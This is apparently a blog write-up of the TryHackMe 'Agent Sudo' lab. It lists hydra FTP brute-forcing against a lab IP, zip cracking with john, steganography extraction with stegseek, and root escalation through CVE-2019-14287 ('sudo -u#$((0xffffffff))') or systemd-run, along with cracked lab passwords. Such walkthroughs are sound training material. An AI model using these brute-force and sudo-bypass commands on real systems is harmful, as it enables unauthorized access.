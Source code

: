 ```yaml
---
title: Agent Sudo
description: Password attack with hydra and stegseek
pubDate: 2024-01-04
category: 'tryhackme'
tags: ['hydra', 'binwalk']
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/aedc6b66c222e15ff740c282a0c3f44e.png'
---
```


User-Agent: C
Redirect to: agent_C_attention.php

Has a reference to agent J

Agent C (chris) has a weak password, we can probably use hydra to brute force FTP access.

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.187.34
...snip...
[21][ftp] host: 10.10.187.34   login: chris   password: crystal
...snip...
```

```bash
binwalk -e cutie.png
```
This outputs a ZIP file which has a password, we can crack it with John

```bash
zip2john 8702.zip > zip_hash
john zip_hash --wordlist /usr/share/wordlists/rockyou.txt
...snip...
alien            (8702.zip/To_agentR.txt)
```

```bash
stegseek cute-alien.jpg /usr/share/wordlists/rockyou.txt
...snip..
[i] Found passphrase: "Area51"
[i] Original filename: "message.txt".
[i] Extracting to "cute-alien.jpg.out".
```

The incident is called: Roswell alien autopsy

CVE-2019-14287
```bash
sudo -u \#$((0xffffffff)) /bin/bash
```

OR:

```bash
systemd-run -t /bin/bash # <-- password: hackerrules!
```
